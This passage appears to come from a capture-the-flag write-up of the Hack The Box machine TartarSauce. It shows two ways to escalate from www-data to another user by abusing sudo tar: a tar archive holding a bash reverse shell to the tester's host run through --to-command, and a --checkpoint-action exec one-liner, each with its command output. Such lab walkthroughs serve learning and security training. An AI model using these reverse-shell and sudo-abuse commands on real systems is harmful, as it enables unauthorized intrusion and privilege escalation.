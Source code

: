     User www-data may run the following commands on TartarSauce:
        (onuma) NOPASSWD: /bin/tar
    

### Two Ways to Escalate with sudo tar

#### –to-command

The take advantage of this, first create a shell script that will provide a reverse shell to my host. Then put it into a tar archive.

    www-data@TartarSauce:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.15.99/8082 0>&1' > a.sh
    www-data@TartarSauce:/dev/shm$ tar -cvf a.tar a.sh
    a.sh
    

Then I’ll run with the option. This option takes the output of the tar command, and passes it to another binary for processing. In this case, I’m having my shell script to get a shell passed to bash to run it.`tar``--to-command`

    www-data@TartarSauce:/dev/shm$ sudo -u onuma tar -xvf a.tar --to-command /bin/bash
    

And I get a callback as onuma:

    root@kali:~/hackthebox/tartarsauce-10.10.10.88# nc -lnvp 8082
    listening on [any] 8082 ...
    connect to [10.10.15.99] from (UNKNOWN) [10.10.10.88] 47320
    onuma@TartarSauce:/dev/shm$ id
    id
    uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)
    onuma@TartarSauce:/dev/shm$
    

#### –checkpoint-action

But even better, this privesc can be done in one line!

We’ll take advantage of the options for checkpoints. The flag tells tar to take some action every x bytes, as a progress update. The default behavior is to print a status message. However, the parameter allows the user to specify what action to take at a check point. So I can have it just give me a shell:`tar``--checkpoint=x``--checkpoint-action`

    www-data@TartarSauce:/$ sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
    <ll /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
    tar: Removing leading `/' from member names
    onuma@TartarSauce:/$ id
    id
    uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)
    

### user.txt

The shell, get user flag:

    onuma@TartarSauce:~$ wc -c user.txt
    33 user.txt
    onuma@TartarSauce:~$ cat user.txt
    b2d6ec45...
    